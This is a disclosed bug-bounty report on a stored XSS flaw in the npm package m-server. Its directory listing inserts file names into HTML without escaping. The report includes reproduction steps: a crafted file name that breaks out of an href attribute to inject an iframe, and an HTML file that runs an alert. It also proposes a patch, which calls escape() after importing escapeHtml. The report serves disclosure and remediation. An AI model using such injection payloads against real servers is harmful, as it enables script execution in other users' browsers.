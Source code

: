 # [m-server] HTML Injection in filenames displayed as directory listing in the browser allows to embed iframe with malicious JavaScript code

## Report Details
- **Report ID**: 319794
- **URL**: https://hackerone.com/reports/319794
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-02-26T14:11:20.512Z
- **Disclosed**: 2018-07-12T08:41:30.324Z

## Reporter
- **Username**: bl4de
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report Stored XSS vulnerability in ```m-server``` module.
```m-server``` displays content of selected directory as HTML in the browser. However, no escape is implemented which allows malicious user to embed executable JavaScript or HTML code (eg. to load HTML document into ```iframe``` element and execute JavaScript from within loaded file).

## Module

**module name:** m-server
**version:** 1.4.0
**npm page:** https://www.npmjs.com/package/m-server

### Module Description

M-Server is a mini http static server that without any dependencies;

### Module Stats

Stats
6 downloads in the last day
68 downloads in the last week
180 downloads in the last month

~2200 estimated downloads per year

## Vulnerability Description

No HTML special characters escape is implememtned in the function which constructs and returns HTML with current directory listing:


```javascript
// node_modules/m-server/lib/utils.js, line 57

    dirs.sort(sort).forEach(function (val) {
        html.push('<li><a href="' + path + '/' + val + '">' + val + '</a></li>');
    });
    files.sort(sort).forEach(function (val) {
        html.push('<li><a download href="' + path + '/' + val + '">' + val + '</a></li>');
    });
    html.push('</ul>');
    return html.join('');
```


## Steps To Reproduce:

- install ```m-server``` module:

```
$ npm install m-server
```

- create ```malware_frame.html``` file with following content:

```html
<html>

<head>
    <meta charset="utf8" />
    <title>Frame embeded with malware :P</title>
</head>

<body>
    <p>iframe element with malicious code</p>
    <script>
        alert('Uh oh, I am bad, bad malware!!!')
    </script>
</body>

</html>
```

- in the same directory, create another file with following name:

```
"><iframe src="malware_frame.html">
```

- run ```m-server``` in the same directory, where two above files exist:

```
$ ./node_modules/m-server/index.js -p 8080
-------------------------------------------------------------
	Mini http server running on port 8080 !
	You can open the floowing urls to view files.
	127.0.0.1:8080
	10.235.1.22:8080
	10.235.4.26:8080
	Have fun ^_^
-------------------------------------------------------------

```

- malicious frame is embedded and JavaScript code from ```malware_frame.html``` executed immediately:

{F267014}


Both files can be uploaded by malicious user if eg. other vunerabilities in other applications exist on the same server (eg. upload file feature) or if attacker gains an access to the server using poorly secured remote access.


## Patch

```escape-html``` module can be used to prevent this attack (https://www.npmjs.com/package/escape-html):

```javascript
const escapeHtml = require('escape-html')

(...)

// vulnerable part of node_modules/m-server/lib/utils.js:
dirs.sort(sort).forEach(function (val) {
    html.push('<li><a href="' + path + '/' + escape(val) + '">' + escape(val) + '</a></li>');
});
files.sort(sort).forEach(function (val) {
    html.push('<li><a download href="' + path + '/' + escape(val) + '">' + escape(val) + '</a></li>');
});
html.push('</ul>');
return html.join('');

```

## Supporting Material/References:

- Operating system: Ubuntu 16.04
- Node.js 8.9.4
- npm v. 5.6.0
- curl 7.47.0

## Wrap up

- I contacted the maintainer to let him know: [N] 
- I opened an issue in the related repository: [N] 


Regards,

Rafal 'bl4de' Janicki

## Impact

Malicious user is able to inject iframe element with malicious JavaScript code via crafted filename when directory listing is displayed in the browser

The hacker selected the **Cross-site Scripting (XSS) - Stored** weakness. This vulnerability type requires contextual information from the hacker. They provided the following answers:

**URL**
http://localhost:8080

**Verified**
Yes



## Attachments
- 1.jpg
